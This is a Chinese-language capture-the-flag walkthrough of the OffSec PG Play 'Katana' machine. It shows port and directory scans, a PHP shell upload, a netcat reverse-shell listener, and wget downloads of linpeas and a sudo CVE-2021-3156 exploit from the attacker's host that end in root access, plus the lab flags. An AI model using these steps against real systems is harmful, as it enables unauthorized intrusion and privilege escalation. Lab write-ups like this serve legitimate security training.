

###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Katana
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.215.83 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.215.83:21
Open 192.168.215.83:22
Open 192.168.215.83:80
Open 192.168.215.83:139
Open 192.168.215.83:8088
Open 192.168.215.83:8715
Open 192.168.215.83:445
Open 192.168.215.83:7080

PORT     STATE SERVICE       REASON  VERSION
21/tcp   open  ftp           syn-ack vsftpd 3.0.3
22/tcp   open  ssh           syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http          syn-ack Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn   syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn   syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/empowerid syn-ack LiteSpeed
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Did not follow redirect to https://192.168.215.83:7080/
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http          syn-ack LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Katana X
8715/tcp open  http          syn-ack nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

這邊想改用dirsearch(被buster雷到不行QQ)，前面搜尋了80跟其他port都沒收穫
```
┌──(kali㉿kali)-[~/.local/share/Trash/files]
└─$ dirsearch -u http://192.168.215.83:8088

Target: http://192.168.215.83:8088/

[05:43:08] Starting:                                                                                                                       
[05:43:52] 301 -    1KB - /cgi-bin  ->  http://192.168.215.83:8088/cgi-bin/ 
[05:43:59] 301 -    1KB - /css  ->  http://192.168.215.83:8088/css/   
[05:44:02] 200 -    1KB - /docs/                                     
[05:44:02] 301 -    1KB - /docs  ->  http://192.168.215.83:8088/docs/ 
[05:44:12] 301 -    1KB - /img  ->  http://192.168.215.83:8088/img/   
[05:44:30] 200 -   50KB - /phpinfo.php                               
[05:44:35] 401 -    1KB - /protected/data/                           
[05:44:35] 401 -    1KB - /protected/runtime/
[05:44:55] 200 -    2KB - /upload.html                               
[05:44:55] 200 -  684B  - /upload.php
```

查看`http://192.168.215.83:8088/upload.html`，可以上傳shell



等反彈可拿到`www-data`的shell，在`/var/www`路徑可拿到local.txt

```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

## 存取
http://192.168.215.83:8715/katana_shell.php

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@katana:/$
www-data@katana:/var$ cd www
www-data@katana:~$ ls
html  local.txt
www-data@katana:~$ cat local.txt
fc33c82a6cf2b2203fe3a53b391dfa2b
```

`linpeas.sh`
```
www-data@katana:/tmp$ wget 192.168.45.242/linpeas.sh
www-data@katana:/tmp$ chmod +x linpeas.sh
www-data@katana:/tmp$ ./linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester                         
╚ https://github.com/mzet-/linux-exploit-suggester
...
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
...
```

使用[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)，/root路徑有proof.txt
```
www-data@katana:/tmp$ wget 192.168.45.242/exploit_nss.py
www-data@katana:/tmp$ python3 exploit_nss.py
# whoami
root
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@katana:/root# cat proof.txt
2ea43280c2280aa2ca394819f08ad386
```